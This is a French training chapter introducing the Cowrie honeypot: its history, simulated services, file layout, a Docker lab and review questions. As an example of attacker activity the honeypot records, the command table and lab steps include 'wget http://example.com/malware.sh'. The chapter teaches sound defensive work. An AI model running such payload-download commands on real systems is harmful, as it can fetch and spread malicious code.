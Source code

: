 # CHAPITRE 02 – Présentation de Cowrie

---

## 1. Objectifs pédagogiques

À l’issue de ce chapitre, l’apprenant sera capable de :

* Comprendre ce qu’est Cowrie et en quoi il diffère des autres honeypots
* Identifier les composants et les services simulés par Cowrie
* Expliquer l’architecture de base de Cowrie
* Se repérer dans les répertoires et fichiers clés du projet
* Tester le comportement du honeypot en environnement local isolé

---

## 2. Partie théorique

### 2.1. Qu’est-ce que Cowrie ?

Cowrie est un **honeypot interactif à forte interaction**, écrit en Python. Il simule un service SSH et/ou Telnet, ainsi qu’un **faux système Linux** complet.

Objectif : **piéger les attaquants automatisés ou humains** et enregistrer leurs actions de manière détaillée.

---

### 2.2. Historique du projet

* **2010–2015 : Kippo** – premier honeypot SSH interactif
* **2015 : Cowrie** – fork de Kippo, maintenu activement avec de nombreuses améliorations :

  * Support Telnet
  * Simulation de fichiers réalistes
  * Intégration d’un faux shell plus complet
  * Support SCP, SFTP, fichiers uploadés, etc.

---

### 2.3. Services simulés

Cowrie simule **de manière crédible** :

* Un **serveur SSH (port 2222)** ou **Telnet (port 2223)** – configurables
* Un **shell Unix** (limité mais réaliste : `ls`, `cd`, `wget`, `cat`, etc.)
* Un **système de fichiers** (personnalisable avec arborescence fictive)
* Un **support de transfert de fichiers** :

  * Téléversement (`scp`, `sftp`)
  * Téléchargement (`wget`, `curl`)
* Un **système de session isolée par IP** avec horodatage, logs, et replay

---

### 2.4. Architecture technique de Cowrie

**Composants principaux** :

* `cowrie.cfg` : configuration principale (ports, services, utilisateurs, etc.)
* `honeyfs/` : système de fichiers factice présenté aux attaquants
* `ttylog/` : journalisation des sessions brutes (format binaire + relecture possible)
* `log/cowrie.json` : journalisation structurée JSON pour analyse
* `cowrie/` : code source Python (Twisted pour le réseau)

**Flux de fonctionnement** :

1. L’attaquant tente de se connecter en SSH/Telnet
2. Cowrie accepte la connexion et enregistre l’identifiant/mot de passe
3. Un faux shell est présenté à l’attaquant
4. Toute commande est enregistrée ligne par ligne
5. Fichiers téléversés sont capturés et stockés dans `dl/`
6. Fin de session = log complet disponible (replay possible)

---

### 2.5. Exemples de commandes gérées par Cowrie

| Commande                             | Résultat simulé                                      |
| ------------------------------------ | ---------------------------------------------------- |
| `ls -al /etc`                        | Faux listing du répertoire `/etc`                    |
| `wget http://example.com/malware.sh` | Téléchargement réel dans `dl/`                       |
| `echo hello > test.txt`              | Écriture dans fichier fictif                         |
| `exit`                               | Fin de session                                       |
| `uname -a`                           | Réponse personnalisable (ex. : Linux Debian 4.19...) |

**À noter :** Cowrie ne permet **aucune exécution réelle** des commandes sur le système hôte. Il n’y a pas de prise de contrôle possible de la machine qui héberge Cowrie (si correctement isolée).

---

## 3. Avantages de Cowrie

* Très réaliste pour un attaquant non expert
* Fort volume de données collectées (IP, username/password, commandes, fichiers)
* Adapté aux études statistiques ou Threat Intelligence
* Facile à intégrer avec des outils de SIEM (ELK, Wazuh)
* Conteneurisable (Docker), déploiement rapide

---

## 4. Travaux Pratiques

### TP-02 : Observation du comportement de Cowrie

**Objectif** : Tester les fonctionnalités de base de Cowrie via un container Docker pour éviter les risques.

#### Étapes :

1. Cloner le dépôt officiel de Cowrie :

```bash
git clone https://github.com/cowrie/cowrie.git
cd cowrie
```

2. Lancer un conteneur Docker préconfiguré :

```bash
docker build -t cowrie .
docker run -d --name cowrie -p 2222:2222 cowrie
```

3. Se connecter en SSH :

```bash
ssh root@localhost -p 2222
```

> Mot de passe bidon (ex : `123456` ou `toor`)

4. Essayer quelques commandes :

```bash
ls /bin
uname -a
cd /etc
wget http://example.com/malware.sh
```

5. Observer les logs :

```bash
cat log/cowrie.json | jq .
ls dl/
```

6. Arrêter le container :

```bash
docker stop cowrie
docker rm cowrie
```

---

## 5. Questions de révision

1. Quelle est la différence principale entre Cowrie et un honeypot à faible interaction ?
2. Quels fichiers de Cowrie contiennent les logs des commandes tapées ?
3. Pourquoi Cowrie est-il utile pour la collecte d’indicateurs de compromission ?
4. Peut-on exécuter une commande système réelle depuis Cowrie ?
5. Quels sont les risques d’exposer Cowrie sans l’isoler ?

---

## 6. Ressources complémentaires

* Documentation officielle : [https://cowrie.readthedocs.io/](https://cowrie.readthedocs.io/)
* Projet GitHub : [https://github.com/cowrie/cowrie](https://github.com/cowrie/cowrie)
* Exemple de replay session : `bin/playlog.py log/tty/ttylog.20250704`
* Outils d’analyse de logs JSON : `jq`, `Python scripts`, `Kibana`
